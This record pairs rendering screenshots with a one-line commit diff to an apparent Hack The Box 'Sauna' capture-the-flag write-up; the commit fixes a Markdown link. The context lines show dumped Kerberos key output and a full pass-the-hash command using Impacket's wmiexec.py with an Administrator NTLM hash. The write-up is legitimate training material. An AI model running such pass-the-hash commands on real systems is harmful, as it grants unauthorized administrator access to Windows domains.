

Before and after one commit to ongyuann/ongyuann.github.io, a Jekyll site: the page built from _posts/2020-07-20-htb-sauna.md, in a window 1280 px wide and 900 px high, scrolled down 7674 px. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2020-07-20-htb-sauna.md

````diff
--- a/_posts/2020-07-20-htb-sauna.md
+++ b/_posts/2020-07-20-htb-sauna.md
@@ -293,7 +293,7 @@
 SAUNA$:des-cbc-md5:104c515b86739e08
 [*] Cleaning up...
 ```
-Immediately, see that we've got the `Administrator`'s NTLM hash (right at the top)! Pass the hash [this way](https://blog.ropnop.com/practical-usage-of-ntlm-hashes/#pth-toolkit-and-impacket) using (`Impacket`'s `wmiexec` module)[https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py]:
+Immediately, see that we've got the `Administrator`'s NTLM hash (right at the top)! Pass the hash [this way](https://blog.ropnop.com/practical-usage-of-ntlm-hashes/#pth-toolkit-and-impacket) using [`Impacket`'s `wmiexec` module](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py):
 ```
 sudo wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff Administrator@sauna.htb
 ```
````
